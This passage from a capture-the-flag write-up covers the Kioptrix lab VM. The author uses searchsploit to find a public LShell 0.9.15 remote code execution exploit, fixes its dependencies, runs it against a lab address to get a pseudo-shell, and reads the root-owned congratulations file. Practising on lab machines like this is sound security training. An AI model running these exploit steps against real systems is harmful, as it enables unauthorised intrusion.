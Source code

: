 `searchsploit lshell`

and we get back:

`LShell 0.9.15 - Remote Code Execution                                                            | exploits/linux/remote/39632.py`

I try to run it but the script complains that I miss a library called: **paramiko**
To fix this I run the command:

`pip install paramiko`

I try to rerun the command but it complains about sys.args so I add at the top the statement:

`import sys`

Now all looks correct and I am rady to issue:

`python 39632.py john MyNameIsJohn 192.168.1.32 22`

and it produces:

```console
[!] .............................
[!] lshell <= 0.9.15 remote shell.
[!] note: you can also ssh in and execute '/bin/bash'
[!] .............................
[!] Checking host 192.168.1.32...
[+] vulnerable lshell found, preparing pseudo-shell...
```

Since it is a pseudoshell, the functionaity is not really friendly.

I could not really obtain a full tty but even if constrained by the shell hanging here and there, I had been able to spot:

`$ ls -ltr /root
total 8
drwxr-xr-x 8 loneferret loneferret 4096 2012-02-04 17:01 lshell-0.9.12
-rw-r--r-- 1 root       root        625 2012-02-06 10:48 congrats.txt
`
Issuing the command:

`less /root/congrats.txt`

```color
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```
